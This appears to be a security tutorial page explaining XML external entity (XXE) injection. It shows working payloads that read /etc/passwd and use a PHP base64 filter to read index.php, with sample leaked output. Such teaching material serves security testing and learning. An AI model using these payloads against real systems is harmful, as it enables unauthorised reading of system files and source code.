 To perform an XXE Injection Attack to retrieve sensitive system files, an attacker needs to modify the submitted XML in two ways:
1. Introduce or edit a `DOCTYPE` element that defines an external entity containing the path of the file.
2. Edit a value in the XML that is returned in the application's HTTP response, to make sure of the defined external entity.

For example, an application checks the stock level of a product by submitting the following XML:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```
An attacker can exploit the XXE vulnerability by modifying the XML to include the XXE payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE haxxor [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
The XXE payload defines the `&xxe;` in the `DOCTYPE` and uses the entity within the `productId` tag to return the value. This causes the application's response to include the contents of the file:
```txt
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

Additionally, if the target is a PHP application, we can use wrapper filters to encode the content using Base64. For example:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE haxxor [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
## Note
With real-world XXE vulnerabilities, there will often be a large number of data values within the submitted XML, any one of which might be used within the application's response. To test systematically for XXE vulnerabilities, you will generally need to test each data node in the XML individually, by making use of your defined entity and seeing whether it appears within the response.